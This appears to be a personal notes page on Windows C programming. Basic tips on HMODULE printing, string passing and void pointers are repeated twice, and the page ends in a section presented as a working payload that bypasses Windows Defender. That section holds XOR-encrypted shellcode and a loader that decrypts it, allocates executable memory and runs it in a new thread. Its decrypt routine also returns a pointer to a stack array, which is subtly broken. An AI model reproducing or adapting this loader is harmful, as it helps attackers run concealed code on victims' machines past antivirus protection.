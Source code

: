 C
========================

# Windows (only)

## printing hmodule

hmodule is type of variable that handles addresses. To print these variables we have the following instruction:

	printf("[*] Base address : 0x%.8x\n", (unsigned int) dllHandle);


## Passing string as a value

source: https://stackoverflow.com/questions/1846392/passing-string-as-an-argument-in-c

	int function1(char string[]) 
or

	void function(char *string)

## returning a string from a function	
	
If you want to return a string from a function, you either need to make the variable static which means it doesn't get deleted once the function ends (although then your function isn't thread-safe); or you need to allocate memory for the new string (using malloc() ) and copy the string into it (using strcpy() or strncpy() ).

	#include <stdio.h>
	#include <string.h>
	#define STR_SIZE 80
	void GetString( char* strOut, unsigned int strSize )
	{
	   strncpy( strOut, "Hello World", strSize );
	}
	int main()
	{
	   char buf[STR_SIZE + 1];
	   GetString( buf, STR_SIZE );
	   printf( "%s", buf );
	   return 0;
	}

## pointer sizes

source: https://stackoverflow.com/questions/494163/what-is-pvoid-data-type

It's a void pointer -- a pointer to a memory address with no information about the type of the value that it is pointing to. For this reason, you must cast the pointer to a type such as (char *)pMemPhy or (int *)pMemPhy before using the pointer so that the compiler knows how much memory it's working with (1 byte for a char, 4 bytes for an int, etc.)


## printing hmodule

hmodule is type of variable that handles addresses. To print these variables we have the following instruction:

	printf("[*] Base address : 0x%.8x\n", (unsigned int) dllHandle);


## Passing string as a value

source: https://stackoverflow.com/questions/1846392/passing-string-as-an-argument-in-c

	int function1(char string[]) 
or

	void function(char *string)

## returning a string from a function	
	
If you want to return a string from a function, you either need to make the variable static which means it doesn't get deleted once the function ends (although then your function isn't thread-safe); or you need to allocate memory for the new string (using malloc() ) and copy the string into it (using strcpy() or strncpy() ).

	#include <stdio.h>
	#include <string.h>
	#define STR_SIZE 80
	void GetString( char* strOut, unsigned int strSize )
	{
	   strncpy( strOut, "Hello World", strSize );
	}
	int main()
	{
	   char buf[STR_SIZE + 1];
	   GetString( buf, STR_SIZE );
	   printf( "%s", buf );
	   return 0;
	}

## pointer sizes

source: https://stackoverflow.com/questions/494163/what-is-pvoid-data-type

It's a void pointer -- a pointer to a memory address with no information about the type of the value that it is pointing to. For this reason, you must cast the pointer to a type such as (char *)pMemPhy or (int *)pMemPhy before using the pointer so that the compiler knows how much memory it's working with (1 byte for a char, 4 bytes for an int, etc.)

## payload funcional em C (bypass windows defender)

    
    #include <stdio.h>
    #include <string.h>
    #include <windows.h>


    char key[]= "\xaa\xbb\xcc\xdd";
	
    unsigned char buf[] = 
    "\x71\x74\x73\x90\x4a\x98\xfc\x04\xde\x9f\x38\x87\x9b\x72\x7d"
    "\x8f\x9b\xc1\xdb\x5e\x40\x47\xcf\xea\x59\x7a\x09\xe6\xb1\x3c"
    "\xea\x1e\x76\x53\x63\xfb\x47\x93\x07\xfe\xf4\x22\x53\xbc\xf9"
    "\xe9\x01\x4c\x4a\xad\x16\x4b\xeb\x27\xf0\x44\xf8\x36\xb1\x65"
    "\x7a\x77\x9d\xc7\x42\xa5\x68\x86\x87\xf9\x89\xd4\x4c\xb3\x34"
    "\x60\x29\xfe\x0d\xeb\x75\xf3\x8d\x76\x02\xd0\xac\xa7\x08\x8e"
    "\x6e\xa0\xcd\xf5\x27\xb8\xce\xd0\x69\xc3\xf4\xbc\xf8\x2b\x04"
    "\x53\x57\xea\xb5\xa0\x29\xad\x32\x7f\x5c\x55\x70\xc2\x6f\x92"
    "\x0a\x1e\xea\x96\xa8\x96\x5c\x6a\x18\x59\x8b\xe1\x12\xf4\xcf"
    "\xc7\x77\xf5\x0c\xcc\x73\x60\x2b\x28\xc1\x24\x0f\x0c\x9a\xc0"
    "\xa1\x9d\x37\x91\x5e\x4f\xd4\x29\xfa\x04\x39\x7c\x86\x5d\x51"
    "\x9f\xab\xe7\x56\x99\x3c\x94\x64\x56\x66\x18\xc8\xde\xb9\xcf"
    "\x2e\xe7\x0d\x51\xd1\xe4\xfe\x58\x15\xb0\xae\x60\xbc\x8f\x25"
    "\xe0\x3c\x5a\x72\xb0\x92\xe1\xb3\x00\x52\xb1\xdb\xea\x5d\xce"
    "\xcb\xe5\x77\xa6\x6e\x1e\x1c\x5a\x57\x17\x16\x31\x15\x11\xfb"
    "\xac\x9b\xf7\x91\x0c\xfd\x38\x7e\x95\xd4\xa0\xee\x15\x7a\x25"
    "\xec\x9f\xf9\x20\xa3\x76\xfc\x30\x54\x86\xc3\x92\x02\xf9\x69"
    "\x3a\x9c\x6b\xee\x2a\x9b\x72\x30\x7d\xbc\x84\x39\xf9\x21\xdd"
    "\x63\x87\xfc\x45\x44\x03\x27\x78\xdb\x02\xea\xc4\xf0\x12\x36"
    "\x3b\xb4\x66\xda\x6c\x1a\xc8\x9d\x3a\x54\x12\x4b\xc5\xbf\x5a"
    "\xde\xf6\x88\x0c\xd2\x23\xfe\xe0\x62\xce\xcf\x9f\x4f\xaa\x4f"
    "\xe6\xb1\x39\xa0\x4b\x35\x09\xea\x67\x1c\xe1\x23\xf2\x21\xbd"
    "\xdc\x47\x62\x85\x5f\xf3\x1b\x7f\x47\x86\x1e\x3a\xc7\x6d\x6e"
    "\x21\x35\x6b\xd1\x21\xe7";


unsigned char * futebol(){
	
	size_t bsize = sizeof(buf);

	size_t keylen = strlen(key);

	unsigned char decrypted[bsize];
	for (int i = 0; i < sizeof(buf)-1; i++){
		decrypted[i] = buf[i] ^ key[i % keylen];
	}
	
	return decrypted;
	
}

void main(int argc, char * argv []) { 
	
	unsigned char *gtrf;
	

	

	gtrf = futebol();


	LPVOID addressPointer = VirtualAlloc(NULL, sizeof(buf)-1, 0x3000, 0x40);

	//Copy shellcode
	RtlMoveMemory(addressPointer, gtrf, sizeof(buf)-1);

   	//Create thread pointing to shellcode address
   	CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)addressPointer, NULL, 0, 0);
	
	Sleep(100);
	
}
